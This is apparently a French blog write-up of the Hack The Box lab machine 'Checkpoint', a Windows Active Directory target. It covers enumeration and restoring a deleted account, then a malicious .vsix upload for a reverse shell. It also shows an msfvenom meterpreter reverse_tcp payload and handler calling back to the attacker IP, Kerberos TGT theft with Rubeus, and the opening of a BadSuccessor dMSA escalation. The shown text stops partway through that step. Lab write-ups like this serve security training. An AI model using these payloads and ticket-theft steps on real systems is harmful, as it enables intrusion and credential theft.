+++
title = 'Checkpoint'
date = '2026-10-26T10:37:15+01:00'
draft = false

[menus.main]
  name = "Checkpoint"
  weight = 40
  parent = "Hack The Box"
+++

### Informations

```text
Machine : Checkpoint
Difficulté : Medium
OS : Windows
IP : 10.129.131.215
Mon IP : 10.10.15.180

Credentials : 
	alex.turner / Checkpoint2024!
```

### Reconnaissance

On commence par le classique scan nmap (précédé d'un ping pour vérifier que la machine est up).

```zsh
nmap -sC -sV -Pn -T4 -p- 10.129.131.215
```
```text
-sC : Utilise les scripts par défaut
-sV : Spécifie les versions des services
-Pn : Ne pas ping la machine
-T4 : scan `Aggressive` (default T3)
-p- : Scan les 65535 ports
```

Output :




Pistes :

```text
Port 53 : DNS
	==> DNS Zone Transfer (dig)

Port 88 : Kerberos
	==> AS-REProast, Kerberoasting (impacket)

Port 135/139 : RPC
	==> rpcdump, enum4linux

Port 389 : ldap
	==> ldapsearch.py, enum4linux

Port 445 : SMB
	==> smbmap / netexec / smbclient, enum4linux

Port 5985 : WINRM
	==> evil-winrm.py (nécessite un compte)
```

## Préparation

Étant donné que j'utilise [Exegol](https://exegol.com/), une des fonctionnalités puissantes dessus  c'est [`exegol-history`](https://github.com/ThePorgs/Exegol-history). Cet outil permet de gérer les credentials, les domain names et les IPs cibles sous forme de variable d'environnement réutilisable dans les tools directement. 

Je ferai un article dans la section blog pour en parler un peu plus.

Le scan nmap nous permet de dump : 

```text
Domain : checkpoint.htb
FQDN : DC01.checkpoint.htb
```
Avec ces infos, les credentials et l'ip de la machine on exécute les commandes suivantes : 

```zsh
exh add creds -d "checkpoint.htb" -u "alex.turner" -p 'Checkpoint2024!'
```
```zsh
exh add hosts --ip "10.129.131.215" --role "DC" --hostname "DC01.checkpoint.htb"
```

Puis on charge les creds / hosts :

```zsh
exh set hosts
```

```zsh
exh set creds
```

On a donc : 




On finit la préparation en ajustant le fichier `/etc/hosts` et `krb5.conf`

```zsh
nxc smb "$TARGET" --generate-krb5-file /tmp/krb5.conf && export KRB5_CONFIG=/tmp/krb5.conf
```

```zsh
nxc smb "$TARGET" --generate-hosts-file hosts

cat ./hosts >> /etc/hosts
```

On est ready !

## User Flag

On commence par le DNS Zone Transfer.



Résultat : Failed !


On poursuit avec un `netexec` pour dump les users.


```zsh
nxc ldap "$TARGET" -u "$USER" -p "$PASSWORD" --users
```




Ok donc pas mal de users. On met ça de côté (on note au passage `svc_deploy` qui comme son nom l'indique est un compte de service).

On continue avec `smbmap` (ou `netexec`) pour lister les shares

```zsh
smbmap -H "$TARGET" -u "$USER" -p "$PASSWORD"
```



On a 2 shares qui ne sont pas des shares par défaut (donc intéressants). Seulement, on est full en 'READ ONLY', donc pas énormément de marge de manœuvre.

En fouillant dans les shares :

```text
DevDrop ==> Vide

VMBackups ==> Access Denied
```

On peut fouiller les autres shares mais rien d'intéressants.

Si on recherche sur Internet les `.vsix` packages, on tombe sur : 

- https://nhimg.org/glossary/malicious-vsix/

- https://medium.com/@VakninHai/the-hidden-risks-of-visual-studio-extensions-a-new-avenue-for-persistence-attacks-e56722c048f1


On comprend globalement qu'on peut avoir une RCE à partir d'un package `.vsix`.

Il nous faut donc un revshell dans un package `.vsix` mais aussi le droit 'Write' sur le share `DevDrop`

Pour le revshell en fouillant on trouve ce repository github :



Pour le second point, après avoir pas mal cherché, j'ai finis par trouver quelque chose d'intéressant concernant les objets LDAP sur lesquels mon user avait les droitss `writable`.

Pour énumérer ces droits, on utilise `bloodyAD`

```zsh
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get writable
```

On obtient l'output suivant : 



Et donc le droit `writable` sur l'objet `CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb` qui apparemment est un objet supprimé.

On restore l'objet delete comme ceci :

```zsh
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set restore 'CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb'
```



Avec `netexec`, on teste le mot de passe de `alex.turner` sur l'objet (le user) `mark.davies` :

```zsh
nxc smb "$TARGET" -u 'mark.davies' -p "$PASSWORD"
```



C'est fonctionnel !

On check maintenant si, à tout hasard,, le user `mark.davies` n'aurait pas les droitss `Write` sur `DevDrop`.



Magnifique !


On reprend notre revshell via `.vsix` package. On suit le repo GitHub pour l'installation.

On laisse par défaut `powershell` comme payload puis on génère le `.vsix`.



On démarre un listener (`nc` pour ma part).

Puis on upload le `.vsix`.



On obtient un shell avec le user `ryan.brooks`



On check sur le Desktop de `ryan.brooks` et on trouve le flag.



### Admin Flag

Le principal problème qu'on va avoir pour la suite c'est qu'on ne connaît pas le mot de passe de `ryan.brooks`. On peut essayer le même mot de passe que les deux autres users, mais ça ne fonctionne pas.



On ne peut donc que lancer les équivalents Windows de nos outils habituelss depuis une session meterpreter. Ou bien, on peut, depuis la machine Windows, récupérer un TGT du user `ryan.brooks` (avec `Rubeus`), exporter ce TGT et le convertir en `.ccache` afin de l'utiliser avec nos outils habituels depuis notre machine attaquante.


Première étape : obtenir une session meterpreter. Cela nous permet de faciliter l'interaction avec la machine cible, notamment l'upload de `.exe`.

Génération du staged payload :

```zsh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.180 LPORT=1337 -f exe > meterpreter.exe
```

On upload `meterpreter.exe` sur la machine cible.

Puis on démarre le handler :

```zsh
msfconsole -q -x "use exploit/multi/handler; \
	set payload windows/meterpreter/reverse_tcp; \
	set lhost 10.10.15.180; \
	set lport 1337; run"
```

On exécute `meterpreter.exe` et on obtient la session meterpreter :



On upload `Rubeus.exe`




 puis on lance la commande 

```cmd
.\Rubeus.exe triage
```




Malheureusement, il n'y a aucun TGT à dump mais ce n'est pas grave ! On peut toujours dump le TGT de la session dans laquelle nous sommes en abusant du mécanisme de délégation Kerberos (toujours avec Rubeus).

La commande est la suivante : 

```cmd
.\Rubeus.exe tgtdeleg
```



On obtient donc le TGT du user, ou plus précisément le `base64` du `ticket.kirbi` qui est le format des tickets Kerberos sur Windows.

Pour le transformer en `ticket.ccache` il suffit de faire la commande suivante:

```zsh
echo 'doIF1DCCBdC[...]' | base64 -d > ticket.kirbi
```

puis

```zsh
ticketConverter.py ticket.kirbi ryan.brooks.ccache
```

On exporte le ticket Kerberos :

```zsh
export KRB5CCNAME=ryan.brooks.ccache
```

N'hésitez pas à lancer la commande `klist` une fois le ticket importé pour vérifier que tout fonctionne.



On teste si on peut interagir avec le DC depuis notre machine attaquante avec le TGT de `ryan.brooks`



Et voilà !

J'ai tester `bloodhound.py` ensuite, mais ça n'a pas fonctionné.

!!! Important : On peut toujours collecter les data Bloodhound avec `bloodyAD` grâce à la commande suivante :

```zsh
bloodyAD --host "$DC_HOST" --dns "$DC_IP" -d checkpoint.htb -u "$USER" -k get bloodhound
```

Je vous recommande vraiment la CheatSheet bloodyAD suivante :

- https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html

Ici j'ai préférer énumérer directement les droits `writable` du user `ryan.brooks`.

```zsh
bloodyAD --host "$DC_HOST" --dns "$DC_IP" -d checkpoint.htb -u "$USER" -k get writable
```
qui nous donne :

```text
distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: OU=DMSAHolder,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: CN=Ryan Brooks,OU=Employees,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: DC=checkpoint.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: DC=_msdcs.checkpoint.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD

```
On trouve deux choses intéressantes :

1. On a la possibilité de `CREATE_CHILD` sur l'OU `DMSAHolder`. 

2. On a la possibilité de `WRITE` sur le user `svc_deploy`

Pour creuser un peu on peut chercher les groupes auxquels appartient `svc_deploy` :

```zsh
bloodyAD --host "$DC_HOST" --dns "$DC_IP" -d checkpoint.htb -u "$USER" -k get membership svc_deploy
```

```text
distinguishedName: CN=Users,CN=Builtin,DC=checkpoint,DC=htb
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=checkpoint,DC=htb
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users

distinguishedName: CN=Domain Users,CN=Users,DC=checkpoint,DC=htb
objectSid: S-1-5-21-3129162710-3498938529-1807524340-513
sAMAccountName: Domain Users

distinguishedName: CN=BackupAccess,OU=ServiceAccounts,DC=checkpoint,DC=htb
objectSid: S-1-5-21-3129162710-3498938529-1807524340-1123
sAMAccountName: BackupAccess

```

Le groupe `BackupAccess` est intéressant puisqu'il fait écho directement au share `VMBackups` trouvé au début.

Ensuite, en recherchant dMSA sur Internet on tombe sur ces articles :

- https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory

- https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/BadSuccessor.html

- https://www.hackingarticles.in/abusing-badsuccessor-dmsa-stealthy-privilege-escalation/

#### Comprendre l'attaque BadSuccessor

Un dMSA (Delegated Managed Service Account) est un compte de service géré par Active Directory.

Il permet notamment de remplacer progressivement un ancien compte de service par un compte dont les secrets sont gérés automatiquement.

Pour faciliter cette migration, Active Directory prévoit un mécanisme permettant d'associer un ancien compte de service à son successeur dMSA.

Pour ne pas alourdir le write-up, je vous propose de directement lire les articles qui expliquent très bien le fonctionnement de l'attaque 

#### Exploit

Normalement il n'est pas nécessaire de contrôler le compte privilégié ciblé, néanmoins en essayant l'attaque directement sur `Administrator` cela n'a pas fonctionné.

